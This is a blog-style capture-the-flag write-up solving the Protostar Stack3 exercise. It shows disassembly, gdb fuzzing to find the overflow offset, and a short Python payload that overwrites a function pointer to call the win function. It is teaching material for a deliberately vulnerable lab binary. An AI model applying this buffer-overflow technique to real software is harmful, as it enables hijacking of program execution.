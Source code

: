 ```yaml
---
title: Protostar - Stack 3
date: 2024-02-14 18:32:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack3]
---
```


# Conquering Stack3 at Protostar Machine
Hello Hackers ! , Today is the day I continue on my journey to conquer the [Stack3](https://exploit.education/protostar/stack-three/) binary. on [Protostar](https://exploit.education/protostar) machine.

This challenge requiring us to Redirect Execution to call function called `win` defined in the code useing through exploitation of stack-bufferoverflow.

## **Challenge Overview**
- **Challenge Name:** [Stack3](https://exploit.education/protostar/stack-three/)
- **Machine:** [Protostar](https://exploit.education/protostar)


### Step 1: Explore Binary
- let,s run `/opt/protostar/bin/stack3` binary
![Stack3 Explore](/assets/img/protostar/stack3-explore.png)

Hmm there is input ... Hmmm i think i know this function which prompt input XD .. , but iam not sure for now ..

### Step 2: Analysis

disassemble `main` function

```sh
objdump -M intel -d /opt/protostar/bin/stack3 | grep '<main>' -A 20
```
get  address of `win` function

```sh
objdump -M intel -d /opt/protostar/bin/stack3 | grep '<win>'
```
![Stack3 Analysis](/assets/img/protostar/stack3-analysis.png)

1. Function Prologue:
- `push ebp`  Save the base pointer.
- `mov ebp, esp`  Set up a new base pointer.
- `and esp, 0xfffffff0` Align the stack.
- `sub esp, 0x60` Allocate space for local variables.
2. Variables
`mov DWORD PTR [esp+0x5c],0x0` : Assign Local Variable `[esp+0x5c]` at to 0  
3. Function Calls
- `call 0x08048330 gets@plt` call to function `gets` Oh there the function what i think it used for prompt input XD
- `call   8048350 <printf@plt>` call to function `print`
- `call eax`  call to function address at eax`
4. Conditional Check
- `cmp    DWORD PTR [esp+0x5c],0x0` if local variable at `[esp+0x5c]` still equal 0
- `je     8048477 <main+0x3f>` then `jmp` to `0x08048477` which is the end of fucnction and return 

5. Function Pointer : asseign address of `[esp+0x5c]` if it wasn,t zero to `eax` and then call `eax`
- `mov    eax,DWORD PTR [esp+0x5c]` Move function pointer to `eax`
- `call eax` call function pointer

6. `win` Function address is at `0x08048424`

### Step 3: Debugging

1. create fuzz script at `~/fuzz.py` contains:
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```
2. debug binary with gdb and disassemble main 
3. break point at moveing `cmp [esp+0x1c],0`
4. run binary with stdin from output of running `~/fuzz.py`
5. check fuzz value at pointer `esp+0x1c`

![Stack3 Debug](/assets/img/protostar/stack3-gdb-debug.png)

and we found value at pointer `[esp+0x5c]` `0x51515151` with is `QQQQ` as ascii representation.. Hmmmm Now it will be everything going easy !

![Stack3 Found Offset](/assets/img/protostar/stack3-gdb-found-offset.png)

### Step 4: Crafting Solution

okay let,s update our script: `~/fuzz.py`
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
esp_plus_5c="\x24\x84\x04\x08" # represent 0x08048424 on little endian machines. 0x08048424 is address of win function
print(fuzz+esp_plus_5c)
```
- now esp+0x5c will contain `0x08048424` which is  address of win function and it will moved later to `eax` then our program call `eax` which call function pointer `win` 

- and when run program with our script output as stdin for program ,  function `win` will be called ! 

![Stack3 Solved](/assets/img/protostar/stack3-solved.png)

Oh it Works Again !,  Hack the planet XD ..

